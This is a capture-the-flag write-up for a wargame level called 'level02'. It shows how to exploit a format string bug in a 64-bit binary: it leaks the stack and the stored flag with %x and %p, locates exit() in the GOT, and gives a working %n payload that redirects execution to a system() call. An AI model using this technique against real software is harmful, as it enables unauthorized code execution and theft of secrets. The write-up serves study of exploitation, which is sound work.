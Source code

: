 # level02
- !! This binary is an ELF in 64-bit, thus adresses are 8 bytes long !!
- RELRO protection is disable. My presumption is that we will have to overwrite the __Global Offset Table (GOT)__


## Step 1 : Understand the program

1. The program reads the 41 bytes of the flag in `/home/users/level03/.pass` and store it in `ptr[48]`
2. The program waits for username entry and password entry in `stdin`
3. The program compares password entry to the flag
    - If equal: Prints `Greetings` and run a shell
    - If not equal: Prints the raw username string and `exit(1)`. __Here is the vulnerability: Format String Vuln__

## Step 2

Leak the stack to find somethings interesting

```console
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAABBBB %x %x %x %x %x %x %x %x %x %x %x %x
--[ Password: CCCCCCCC
*****************************************
AAAABBBB ffffe4c0 0 43 2a2a2a2a 2a2a2a2a ffffe6b8 f7ff9a08 43434343 0 0 0 0 does not have access!
```

Yeah ! We access to the password buffer thanks to the the __8th__ specifer `%x`.

### Solution
Since the program exits if the password is incorrect, we can change the address of `exit()` in the __GOT__ by the address where the program run a shell. 

> Do it by the specifier `%n`. This specifier writes the number of characters written so far to the address pointed by its argument.  
In our case, its argument is the buffer filled with the address of `exit()` entry of the __GOT__.

## Step 3

Find the address of the __GOT__ where the address of `exit()` is stored
```bash
readelf -r level02 | grep exit
```
```console
000000601228  000c00000007 R_X86_64_JUMP_SLO 0000000000000000 exit + 0
```

The __GOT__ stores the address of `exit()` at `0x601228`

## Step 4
Find the address where the shell is run in the program
```console
$ gdb -q level02
Reading symbols from /home/users/level02/level02...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   [...]
   0x0000000000400a78 <+612>:	mov    %rax,%rdi
   0x0000000000400a7b <+615>:	mov    $0x0,%eax
   0x0000000000400a80 <+620>:	callq  0x4006c0 <printf@plt>
   0x0000000000400a85 <+625>:	mov    $0x400d32,%edi
   0x0000000000400a8a <+630>:	callq  0x4006b0 <system@plt>
   0x0000000000400a8f <+635>:	mov    $0x0,%eax
   0x0000000000400a94 <+640>:	leaveq
   [...]
End of assembler dump.
(gdb) b *main
(gdb) r
(gdb) jump *main+625
Continuing at 0x400a85.
$ whoami
level02
```

We have a shell at `0x400a85`

## Exploit
```bash
(python -c 'print "%4196997p" + "%8$n" + "\n" + "\x60\x12\x28"[::-1] '; cat) | /home/users/level02/level02
```

> 4196997 is equal to 0x400a85 (address of the shell). We write in decimal because `%n` specifier take a int pointer

## Other solution
```console
./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %21$p%22$p%23$p%24$p%25$p%26$p%27$p
--[ Password:
*****************************************
(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil) does not have access!
```
> At the 22th specifier, we access to the `ptr` buffer which contain the flag.

> Remember: all the flag have a size of 40 bytes

Now we just have to:
- Remove the `0x`
- Split into 5 blocks --> 5 blocks of 8 bytes = 40 bytes (8 bytes because we are in 64-bit)
- Convert to ASCII
- Revert endian